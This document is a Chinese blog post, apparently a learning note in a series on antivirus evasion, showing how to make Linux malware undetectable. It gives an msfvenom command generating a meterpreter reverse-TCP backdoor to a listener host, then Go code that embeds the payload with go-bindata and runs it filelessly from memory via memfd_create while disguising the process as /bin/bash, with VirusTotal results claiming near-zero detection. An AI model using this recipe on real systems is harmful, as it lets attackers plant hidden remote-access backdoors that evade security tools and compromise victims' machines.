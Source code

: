 ```yaml
---
title: 杀软的无奈-最简单的免杀(二)
url: 1683.html
id: 1683
password: fakefake
categories:
  - 学习记录
date: 2021-03-24 19:57:14
tags:
  - 杀软的无奈
---
```



## 前言

平时比较忙，抽不出来大把的时间来写文章，导致这个系列的更新太过于迟缓了。怕一直找理由鸽了自己，今天先更新一篇水文吧。主要说一下利用现成的工具完成比较简单的免杀工作。

<!-- more -->


## 背景知识

今天要讲的主角其实是go语言。go语言是2009年google发布的语言，由于其有类似于c和c++一样的性能，同时还具备类似于解释性语言的垃圾回收机制，并且不像java一样依赖虚拟机，优秀的跨平台优势和1.4版本之后go语言实现的支持交叉编译的编译器，让它迅速火了起来。

但是优秀的同时，它以牺牲自己二进制的体积为代价，每个go二进制都静态链接了一个runtime库，此库实现了垃圾回收、线程调度、go语言特有的关键特性等任务。此库的功能非常强大，因为导致一个简单的"hello world"就有1700多个函数。
有如此多的函数，那从这一堆函数中找出具有恶意功能的函数简直像大海捞针一样困难，这是市面上的大部分杀毒引擎对go二进制的检测能力比较薄弱的一个原因。

本文主要是用go语言的相关工具，来彻底免杀之前会被查杀的elf恶意代码。(windows平台类似的方法，但是我并没有测试免杀效果。)

## 开始正题

**基本思想就是把一个不免杀的ELF文件作为字节数据存储在go编写的二进制中，然后go二进制执行的时候从自身读出恶意代码然后直接加载到内存中执行，保证恶意代码不落盘**

这个方法非常简单，不需要分析什么shellcode特征，甚至不需要写什么代码，就能实现效果不错的免杀，而且检测比较困难。


可选的工具有很多:

- [https://github.com/gobuffalo/packr](https://github.com/gobuffalo/packr)
- [https://github.com/rakyll/statik](https://github.com/rakyll/statik)
- [https://github.com/GeertJohan/go.rice](https://github.com/GeertJohan/go.rice)
- [https://github.com/UnnoTed/fileb0x](https://github.com/UnnoTed/fileb0x)
- [https://github.com/mjibson/esc](https://github.com/mjibson/esc)
- [https://github.com/kevinburke/go-bindata](https://github.com/kevinburke/go-bindata)
- [https://github.com/lu4p/binclude](https://github.com/lu4p/binclude)
- [https://github.com/omeid/go-resources](https://github.com/omeid/go-resources)
- [https://github.com/pyros2097/go-embed](https://github.com/pyros2097/go-embed)
- [https://github.com/wlbr/mule](https://github.com/wlbr/mule)
- [https://github.com/miscing/embed](https://github.com/miscing/embed)
- [https://github.com/kyioptr/gassets](https://github.com/kyioptr/gassets)

甚至 go1.6 就默认支持[https://go.googlesource.com/proposal/+/master/design/draft-embed.md](https://go.googlesource.com/proposal/+/master/design/draft-embed.md) ，你说开心不开心，默认支持的能有啥特征呢？ 哈哈哈哈

下面就先 https://github.com/kevinburke/go-bindata 来测试一下效果。

1. 用msf生成一个后门

```bash
msfvenom -p  linux/x64/meterpreter/reverse_tcp  -e x86/shikata_ga_nai -i 1 lhost=192.168.1.1 lport=6666 -f elf > ./test
```

这个样本肯定是不免杀的，上传到virustotal上看一下。

![](https://pic.wonderkun.cc/uploads/2021/03/2021-03-25-21-38-06.png)


竟然才仅有4款杀毒软件报毒，这太出乎意料了，是杀毒软件提不动刀了，还是metasploit的编码器太强了？不过 anyway，我们还是用go去加载这个二进制，看一下效果。


2. 使用go-bindata 打包到一个文件中

```bash
# https://github.com/kevinburke/go-bindata
./go-bindata ./test
```

这样就会生成一个  `bindata.go` 的文件，里面以压缩字节的形式存储这 ./test 的数据。

![](https://pic.wonderkun.cc/uploads/2021/03/2021-03-25-21-51-03.png)

接下来在 `bindata.go` 中编写main函数，来让test文件从内存执行:

```go
const (
	mfdCloexec  = 0x0001 // 注意这个syscall 只有 3.17 之后的内核才支持,现在大部分的机器都支持了。
	memfdCreate = 319
)
func main() {
	
	data, err := Asset("test")
	if err != nil {
		// Asset was not found.
		fmt.Println("read test file content error!")
	}
	filename := ""

	fd, _, _ := syscall.Syscall(memfdCreate, uintptr(unsafe.Pointer(&filename)), uintptr(mfdCloexec), 0)

	_, _ = syscall.Write(int(fd), data)
	displayName := "/bin/bash"

	fdPath := fmt.Sprintf("/proc/self/fd/%d", fd)
	_ = syscall.Exec(fdPath, []string{displayName}, nil)

}
```

编译之后，发现这个后门功能正常，上传到 virustotal 再看一下效果。

![](https://pic.wonderkun.cc/uploads/2021/03/2021-03-25-22-10-39.png)

效果还算理想。这里可以放任意的会被杀软干掉的二进制，应该免杀效果都是杠杠的。 

windows平台上也是同样的道理，只是windows没有 `memfd_create` 这样方便的syscall供我们调用，但是 「exe_run_in_memory」也很容易实现，所以都值得一试的。


## reference

- [https://www.proofpoint.com/us/blog/threat-insight/ta416-goes-ground-and-returns-golang-plugx-malware-loader](https://www.proofpoint.com/us/blog/threat-insight/ta416-goes-ground-and-returns-golang-plugx-malware-loader)

- [https://github.com/guitmz/ezuri](https://github.com/guitmz/ezuri)

- [https://www.guitmz.com/running-elf-from-memory/](https://www.guitmz.com/running-elf-from-memory/)